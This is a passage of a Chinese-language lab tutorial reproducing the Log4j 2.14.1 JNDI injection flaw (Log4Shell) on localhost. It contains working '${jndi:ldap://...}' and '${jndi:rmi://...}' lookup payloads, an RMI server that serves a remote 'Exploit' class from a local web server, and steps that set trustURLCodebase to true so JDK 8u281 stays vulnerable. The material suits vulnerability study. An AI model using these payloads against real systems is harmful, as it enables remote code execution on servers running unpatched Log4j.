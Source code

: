 ```sh
python -m SimpleHTTPServer
```

默认监听端口8000

3. 执行有漏洞的程序：

```java
public class Log4J {
    private static final Logger logger = LogManager.getLogger(Log4J.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        logger.error("${jndi:ldap://127.0.0.1:7912/Foo}");
    }
}
```

log4j我用2.14.1，JDK是8u281，因为8u281版本已经默认设置`com.sun.jndi.ldap.object.trustURLCodebase=false` 无法复现漏洞，所以这里设置成true.

### RMI

1. 启动rmi注册中心 `rmiregistry 1099` 

2. 启动 RMIServer

```java
public class RMIServer {
    public static void main(String args[]) {

        try {
            Registry registry = LocateRegistry.getRegistry(1099);

            String factoryUrl = "http://localhost:8000/";
            Reference reference = new Reference("Exploit", "Exploit", factoryUrl);
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("Foo", wrapper);

            System.err.println("Server ready, factoryUrl:" + factoryUrl);
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

3. 将恶意代码放在放在web服务器上
4. 执行有漏洞的程序：

```java
public class Log4J {
    private static final Logger logger = LogManager.getLogger(Log4J.class);

    public static void main(String[] args) {

        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        // 下面这行是我自己加的 8u281需要 原因看下文
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");

        logger.error("${jndi:rmi://localhost:1099/Foo}");
    }
}
```
